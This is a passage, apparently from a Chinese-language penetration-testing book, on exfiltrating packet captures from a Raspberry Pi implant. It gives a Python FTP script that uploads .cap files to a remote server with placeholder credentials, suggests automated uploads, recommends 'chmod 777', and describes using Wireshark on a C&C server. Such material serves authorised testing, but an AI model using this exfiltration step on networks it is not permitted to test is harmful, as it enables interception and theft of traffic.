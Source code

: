 让我们看看如何开发一个简单的 FTP 脚本，以以下方式从远程树莓派提取数据。首先，打开文本编辑器并将文件保存为`.py`扩展名。我们将文件保存为`ftp.py`。

```
import ftplib                             #importing ftp module in python
session = ftplib.FTP('server.IP.address.com','USERNAME','PASSWORD')
file = open('*.cap','rb')                  # file to send
session.storbinary('STOR *.cap', file)     # send the file
file.close()                               # close file and FTP
session.quit()                             # Quit the ftp session
```

接下来，您需要更改文件的权限。您可以通过发出`chmod 777 ftp.py`命令来将其设置为可执行文件。

这是一个非常基本的脚本。您需要指定要传输的文件，用户名，密码和服务器的 IP 地址。

如果您发现经常使用此脚本方法，您可能会希望添加选项，例如自动监视目录以进行捕获，然后使用 FTP 自动上传。您甚至可能想要更改上传目录。

Tcpdump 和从树莓派导出的包含大量捕获数据的文件可能难以查看和组织。处理这些数据的更流行的方法是使用行业标准的基于 GUI 的网络分析器 Wireshark。让我们看看该应用程序的工作原理。

### 注意

我们发现 Wireshark 需要比许多轻量级命令行工具更多的处理能力，有时可能会导致树莓派变得不稳定或崩溃。因此，我们建议您使用 tcpdump 并调整捕获，这是我们刚刚介绍的主要捕获数据的方法。Wireshark 更适合在 C&C 服务器上使用，以查看捕获的数据，而不是直接从树莓派上使用。

## Wireshark

Wireshark 是当今最受欢迎的开源数据包分析程序之一。它可以用于解决网络问题，分析系统之间的通信，并在渗透测试的情况下，一旦突破网络，就可以捕获数据。将 Wireshark 视为具有漂亮图形界面和巧妙数据排序功能的 tcpdump。Wireshark 预装在 Kali Linux ARM 映像上，并可以在 Kali Linux 应用程序下拉菜单的前十工具类别中找到。

### 提示

在实际环境中使用 Wireshark 之前，请在实验室中测试您的 Wireshark 用例。我们发现 Wireshark 有时会在真实练习中导致树莓派崩溃。因此，我们建议您在树莓派上直接使用调整后的 tcpdump 方法，并在远程 C&C 服务器上使用 Wireshark。如果必须使用 Wireshark，请在树莓派上使用 TShark，在 C&C 服务器上使用完整的 Wireshark。

使用 Wireshark 有两种方式。让我们先看看完整的 GUI。

当您启动 Wireshark 时，您会看到一个错误消息，稍后会看到一个警告消息，指出您正在以超级用户，也就是 root 的身份运行 Wireshark。只需点击**OK**即可访问主 GUI。

以下屏幕截图显示了 Wireshark 的 GUI：

![Wireshark](img/Insert6435OT_03_28.jpg)
